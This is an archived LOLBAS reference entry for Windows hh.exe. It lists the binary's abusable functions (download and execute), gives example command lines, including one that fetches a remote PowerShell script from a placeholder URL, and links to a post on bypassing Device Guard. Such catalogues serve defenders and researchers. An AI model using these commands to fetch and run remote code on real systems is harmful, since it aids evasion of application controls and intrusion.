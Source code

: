 # UPDATE BOOKMARKS - PROJECT MOVED TO A DEDICATED PROJECT SITE. THIS SITE WILL NOT BE UPDATED ANYMORE, BUT WILL BE KEPT FOR HISTORICAL REASONS.
New site: https://github.com/LOLBAS-Project/LOLBAS
Web portal: https://lolbas-project.github.io/ 
## hh.exe

* Functions: Download, Execute

```
HH.exe http://www.google.com      

HH.exe C:\    

HH.exe c:\windows\system32\calc.exe    

HH.exe http://some.url/script.ps1    
```

Acknowledgements:
* Oddvar Moe - @oddvarmoe

Code sample:
* 

Resources:
* https://oddvar.moe/2017/08/13/bypassing-device-guard-umci-using-chm-cve-2017-8625/

Full path:
```
c:\windows\system32\hh.exe
c:\windows\sysWOW64\hh.exe
```

Notes:



 
